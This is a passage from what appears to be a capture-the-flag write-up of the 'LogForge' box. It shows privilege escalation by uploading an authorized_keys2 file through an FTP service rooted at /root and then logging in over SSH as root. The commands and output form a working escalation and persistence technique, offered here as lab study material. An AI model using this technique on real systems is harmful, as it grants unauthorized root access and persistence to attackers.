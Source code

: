 ```bash
ftp> pwd
pwd
257 "/root"
```

After playing a bit, we can see and download many of the files, but we cannot delete, rename or append anything on the existing files. However we can upload new files.

```bash
tomcat@LogForge:/tmp$ echo "test" > kali.txt
echo "test" > kali.txt
```

```bash
ftp> put kali.txt
put kali.txt
local: kali.txt remote: kali.txt
200 Command OK
150 Opening ASCII mode data connection for requested file kali.txt
226 File transfer successful. Closing data connection.
6 bytes sent in 0.00 secs (344.6691 kB/s)
```

As we already see an `authorized_keys` on the `.ssh` directory, we cound add our on key on a `authorized_keys2` file and upload it.

```bash
ftp> cd .ssh
cd .ssh
250 The current directory has been changed to /root/.ssh

ftp> put authorized_keys2
put authorized_keys2
local: authorized_keys2 remote: authorized_keys2
200 Command OK
150 Opening ASCII mode data connection for requested file authorized_keys2
226 File transfer successful. Closing data connection.
92 bytes sent in 0.00 secs (3.1335 MB/s)

ftp> ls
ls
200 Command OK
125 Opening ASCII mode data connection for file list.
authorized_keys
id_rsa
known_hosts
authorized_keys2
226 Transfer complete.
```

```bash
$ ssh -i ~/.ssh/kali-rsa root@$TARGET       
Enter passphrase for key '/home/kali/.ssh/kali-rsa': 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)
...
Last login: Tue Dec 21 15:10:37 2021

root@LogForge:~# id
uid=0(root) gid=0(root) groups=0(root)
```
